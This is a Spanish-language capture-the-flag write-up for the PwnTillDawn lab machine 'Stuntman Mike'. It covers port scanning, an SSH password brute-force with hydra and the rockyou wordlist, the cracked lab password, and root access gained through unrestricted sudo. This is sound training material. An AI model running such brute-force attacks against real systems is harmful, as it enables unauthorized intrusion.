 # WRITEUP Stuntman Mike

### ESCANEO
#### 10.150.150.166	Linux	Easy
```
PORT     STATE SERVICE
22/tcp   open  ssh
8089/tcp open  unknown
```

Al escanear la ip, podemos ver que solamente hay 2 puertos abiertos. El servicio ssh y posiblemente splunk (8089)


### ENUMERACIÓN

Al identificar las versiones de esos servicios nos muestra lo siguiente:
```
PORT     STATE SERVICE  REASON         VERSION
22/tcp   open  ssh      syn-ack ttl 63 OpenSSH 7.6p1 (protocol 2.0)
8089/tcp open  ssl/http syn-ack ttl 63 Splunkd httpd
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Splunkd
|_http-title: splunkd
| ssl-cert: Subject: commonName=SplunkServerDefaultCert/organizationName=SplunkUser
| Issuer: commonName=SplunkCommonCA/organizationName=Splunk/stateOrProvinceName=CA/countryName=US/emailAddress=support@splunk.com/localityName=San Francisco
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2019-10-25T09:15:13
| Not valid after:  2022-10-24T09:15:13
| MD5:   a81b a4c7 ea97 ebc8 7f73 310f e279 3eb2
| SHA-1: 6bd8 1aeb bb06 78e8 33ff 3419 27c9 6b03 4d72 44c1

```

al ingresar por el navegador al puerto 8089 vemos la version de splunk y al parecer no hay vulnerabilidades publicas para dicha versión.

![alt text](img/1.PNG)

Sólo nos queda el servicio ssh, pero su versión tampoco tiene vulnerabilidades publicas criticas. Lo único que nos queda es realizar fuerza bruta y ver si tenemos suerte.

### EXPLOTACIÓN 

Al intentar ingresar como root al servicio ssh, nos percatamos que hay un banner personalizado y con ella viene una flag. Lo cual me hace pensar que el camino es por ahí. 
Si prestamos atención, hay un usuario potencial que podemos utilizar para realizar bruteforce.

![alt text](img/2.PNG)

Para ello utilizaré hydra y como diccionario utilizaré rockyou junto al usuario Mike, ya que en el banner viene escrito algo como "You are attempting to login to stuntman mike's server"

`hydra -l mike -P /usr/share/wordlists/rockyou.txt ssh://10.150.150.166`
 
 Tras realizar la fuerza bruta encontramos una contraseña, "babygirl" que nos da acceso por ssh.

![alt text](img/3.PNG)

La siguiente flag la encontramos en el mismo directorio.

```
mike@stuntmanmike:~$ pwd
/home/mike
mike@stuntmanmike:~$ ls
FLAG36
```


Después para elevar privilegios, basta con ejecutar sudo -l y podemos ver que el usuario mike está agregado a los sudoers del sistema. Por lo que podemos acceder directamente al directorio /root/ y encontrar la ultima flag.
```
mike@stuntmanmike:~$ sudo -l
[sudo] password for mike: babygirl
Matching Defaults entries for mike on stuntmanmike:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mike may run the following commands on stuntmanmike:
    (ALL : ALL) ALL
mike@stuntmanmike:~$ sudo su
root@stuntmanmike:/home/mike# cd /root
root@stuntmanmike:~# ls
FLAG37
```

Contacto: [Linkedin](www.linkedin.com/in/JairR) [Twitter](https://twitter.com/_niggurath_)


Write-ups have been authorized for this machine by the PwnTillDawn Crew! We are just asking you to give us credit by adding a backlink to [wizlynxgroup](https://www.wizlynxgroup.com/) and [Pwntilldawn](https://online.pwntilldawn.com/) in your write-up.
